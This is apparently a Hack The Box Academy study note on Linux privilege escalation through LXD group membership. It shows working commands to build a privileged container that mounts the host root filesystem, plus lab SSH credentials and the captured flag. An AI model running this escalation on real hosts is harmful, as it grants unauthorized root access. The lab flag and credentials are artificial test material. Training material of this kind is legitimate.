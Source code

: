 # Containers

Containers operate at the operating system level and virtual machines at the hardware level. 

## Linux Containers

Linux Containers (LXC) is an operating system-level virtualization technique that allows multiple Linux systems to run in isolation from each other on a single host by owning their own processes but sharing the host system kernel for them. 

## Linux Daemon

Linux Daemon (LXD) is similar in some respects but is designed to contain a complete operating system. Thus it is not an application container but a system container. 

id
uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)

--> either create our own container and transfer it to the target system or use an existing container

cd ContainerImages
ls
ubuntu-template.tar.xz

lxc image import ubuntu-template.tar.xz --alias ubuntutemp
lxc image list

+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
|                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
| ubuntu/18.04 (v1.1.2)               | 623c9f0bde47 | no    | Ubuntu bionic amd64 (20221024_11:49)     | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+

lxc init ubuntutemp privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

lxc start privesc
lxc exec privesc /bin/bash
ls -l /mnt/root

## LAB

ssh htb-student@10.129.177.220
HTB_@cademy_stdnt!

id
uid=1000(htb-student) gid=1000(htb-student) groups=1000(htb-student),116(lxd)

cd ContainerImages
ls
alpine-v3.18-x86_64-20230607_1234.tar.gz

lxc image import alpine-v3.18-x86_64-20230607_1234.tar.gz --alias alpinetest

lxc image list
+------------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
|   ALIAS    | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+------------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| alpinetest | b14f17d61b9d | no     | alpine v3.18 (20230607_12:34) | x86_64       | CONTAINER | 3.62MB | Jan 23, 2024 at 6:54pm (UTC) |
+------------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+

lxc init alpinetest privesc -c security.privileged=true
Creating privesc

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc

lxc start privesc
lxc exec privesc /bin/bash

Error: Command not found


cat /etc/passwd
root:x:0:0:root:/root:/bin/bash

lxc init alpinetest privesc2 -c security.privileged=true
Creating privesc2

lxc config device add privesc2 host-root disk source=/ path=/root recursive=true
Device host-root added to privesc2

lxc start privesc2
lxc exec privesc2 /bin/bash

Error: Command not found

lxc launch privesc

lxc exec privesc -- sh -c "cd /tmp && pwd"

lxc start privesc

lxc-attach -n privesc
--> Failed

lxc exec privesc /bin/sh
cat /mnt/root/root/flag.txt
HTB{C0nT41n3rs_uhhh}
